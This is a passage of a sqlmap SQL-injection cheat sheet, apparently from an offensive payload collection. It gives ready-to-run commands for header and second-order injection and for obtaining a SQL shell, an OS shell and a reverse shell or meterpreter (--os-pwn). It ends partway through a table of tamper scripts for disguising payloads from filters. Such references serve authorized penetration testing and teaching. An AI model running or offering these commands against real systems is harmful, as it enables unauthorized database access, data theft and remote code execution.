Custom injection in UserAgent/Header/Referer/Cookie
```
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

Second order injection
```
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

Shell
```
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn
```

Using suffix to tamper the injection
```
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

General tamper option and tamper's list
```
tamper=name_of_the_tamper
```

| Tamper | Description |
| --- | --- |
|apostrophemask.py | Replaces apostrophe character with its UTF-8 full width counterpart |
|apostrophenullencode.py | Replaces apostrophe character with its illegal double unicode counterpart|
|appendnullbyte.py | Appends encoded NULL byte character at the end of payload |
|base64encode.py | Base64 all characters in a given payload  |
|between.py | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' |
|bluecoat.py | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator  |
|chardoubleencode.py | Double url-encodes all characters in a given payload (not processing already encoded) |
|commalesslimit.py | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'|
|commalessmid.py | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'|
|concat2concatws.py | Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)'|
|charencode.py | Url-encodes all characters in a given payload (not processing already encoded)  |
|charunicodeencode.py | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded)  |
|equaltolike.py | Replaces all occurances of operator equal ('=') with operator 'LIKE'  |
|escapequotes.py | Slash escape quotes (' and ") |
|greatest.py | Replaces greater than operator ('>') with 'GREATEST' counterpart |
|halfversionedmorekeywords.py | Adds versioned MySQL comment before each keyword  |
|ifnull2ifisnull.py | Replaces instances like 'IFNULL(A, B)' with 'IF(ISNULL(A), B, A)'|